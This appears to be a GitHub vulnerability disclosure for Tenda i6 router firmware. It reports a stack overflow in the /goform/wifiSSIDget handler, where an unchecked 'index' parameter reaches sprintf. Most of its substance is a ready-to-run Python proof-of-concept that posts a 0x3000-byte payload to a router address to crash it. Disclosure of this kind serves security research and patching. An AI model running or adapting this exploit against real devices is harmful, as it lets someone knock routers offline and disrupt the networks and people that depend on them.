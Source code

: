 # Tenda APi6 V1.0.0.8(3856) Stack Overflow
## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2570.html

## Affected Version

<img width="1019" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/fc20290f-e5e4-4e62-9609-b6077b2df1fc">

##  Vulnerability Details

 Vulnerability Location: /goform/wifiSSIDget

 The length of the ndex parameter is not verified, sprintf can cause stack overflow vulnerability, it can result in dos attacks on routers

 <img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/3d553aaa-c697-4ef4-9316-00db720bc121">

The pages of the router 

<img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/a9150774-f16b-4550-8864-3abf91eef125">

## POC 

import requests
from pwn import*

ip = "192.168.182.21" 
url = "http://" + ip + "/goform/wifiSSIDget"
print(url)

payload =b'a'*0x3000


cookie = {"Cookie":"user="}
data = {"index": payload,"wl_radio":0}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

 





